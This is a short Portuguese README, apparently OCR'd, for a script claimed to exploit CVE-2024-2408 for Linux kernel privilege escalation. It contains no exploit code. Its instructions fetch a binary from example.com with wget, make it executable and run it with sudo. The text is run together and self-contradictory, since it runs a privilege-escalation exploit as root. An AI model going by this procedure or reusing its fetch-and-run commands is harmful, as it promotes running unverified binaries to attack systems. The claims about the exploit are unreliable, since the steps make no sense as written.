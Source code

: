 # CVE-2024-2408 Exploit

Este script explora a vulnerabilidade CVE-2024-2408 para escalonamento de privilégios no Kernel Linux.

## Como Usar no Kali Linux

1. **Baixe o Script e Torne-o Executável:**

   ```bash
   wget https://example.com/exploit_CVE-2024-2408 -O exploit_CVE-2024-2408
   chmod +x exploit_CVE-2024-2408Execute o Script como Root:sudo ./exploit_CVE-2024-2408Verifique a Elevação de Privilégios:

Após a execução, o comando id mostrará se o acesso foi elevado para root.id

NotaEste script deve ser usado apenas em ambientes de teste controlados e com permissão. O sucesso na exploração pode dar acesso de root ao sistema.